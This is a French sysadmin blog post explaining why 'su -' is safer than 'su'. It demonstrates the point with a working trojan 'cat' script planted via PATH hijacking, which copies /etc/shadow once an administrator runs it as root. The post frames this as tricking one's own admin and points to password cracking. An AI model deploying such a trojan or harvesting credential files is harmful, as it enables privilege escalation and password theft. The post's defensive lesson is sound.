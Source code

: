 ```yaml
---
title: "Pourquoi utiliser 'su -' plutôt que 'su'"
author: Benoit
date: 2020-10-30 19:32:33 +0100
categories: [sysadmin, linux]
tags: [securite]
math: true
image: /images/security.jpg
---
```

`su -` invoque un shell de connexion après avoir changé d'utilisateur. Un shell de connexion réinitialise la plupart des variables d'environnement, fournissant une base propre.

`su` ne fait que changer d'utilisateur, fournissant un shell normal avec un environnement presque identique à celui de l'ancien utilisateur.

Imaginez que vous êtes un développeur de logiciels avec un accès normal à une machine et que votre administrateur ignorant ne vous donne pas l'accès au compte root. Essayons (avec un peu de chance) de le piéger:

Vous connnaisser évidement la commande `cat`qui permet d'afficher le contenu d'un fichier ? Nous allons la piéger en en créant une fausse:

Nous allons la stocker dans le dossier `tmp`

{% highlight bash %}
$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
{% endhighlight %}

Nous créons donc un script que nous allons évidement appeler `cat`
Dans ce script, si l'utilisateur n'est pas root, le script simulera un message de permission refusée.
Si l'utilisateur est root, le script va copier le contenu du fichier `/etc/shadow` dans le dossier `tmp` 
Il va ensuite executer la commande `cat` normalement.

{% highlight bash %}
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; } 
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0
{% endhighlight %}

Nous allons maintenent rendre le script executable et l'ajouter dans notre `PATH` afin de pouvoir l'executer depuis n'importe quel dossier:

{% highlight bash %}
chmod +x /tmp/evil_bin/cat`
PATH="/tmp/evil_bin:$PATH"
{% endhighlight %}

Maintenant, allez voir votre administrateur pour lui demander pourquoi vous n'arrivez pas à afficher un fichier avec la commande `cat`.

Il va donc essayer en restant sur votre session mais ce ne sera pas le vrai programme `cat`qui sera lancé mais notre petit script:

{% highlight bash %}
$ ls -l /home/vous/mon-super-fichier
-rw-r--r-- 1 you wheel 41 2020-06-28 13:00 mon-super-fichier
$ cat /home/vous/mon-super-fichier
/bin/cat: Permission denied!
{% endhighlight %}

Il va donc vouloir essayer avec les droits root en utilisant `su`. Et c'est à ce moment qu'il va faire une erreur. En effet, comme il utilise `su` au lieu de `su -`, les variables d'environnement ne sont pas écrasées. Il va donc une nouvelle fois executer notre script au lieu d'executer la vrai commande `cat`.

{% highlight bash %}
$ su
Password: ...
$ cat /home/vous/mon-super-fichier
du contenu super important dans ce fichier.
$ exit
{% endhighlight %}

Il aura donc l'impression que tout a fonctionné et fermé la session root. Donc, vous pouvez maintenant dire "Merci monsieur l'admin" ^^ En effet, notre piège a fonctionné: 

Nous avons bien récupéré une copie du fichier `/etc/shadow`qui contient une liste de tous les comptes et les mots de passe chiffrés:

{% highlight bash %}
$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2020-06-28 13:02 /tmp/shadow_copy
{% endhighlight %}

Il ne vous reste plus qu'a tenter de les déchiffrer... et pour ça, je vous laisse lire cet article de l'excellent [korben][korben]


[Korben]: https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html

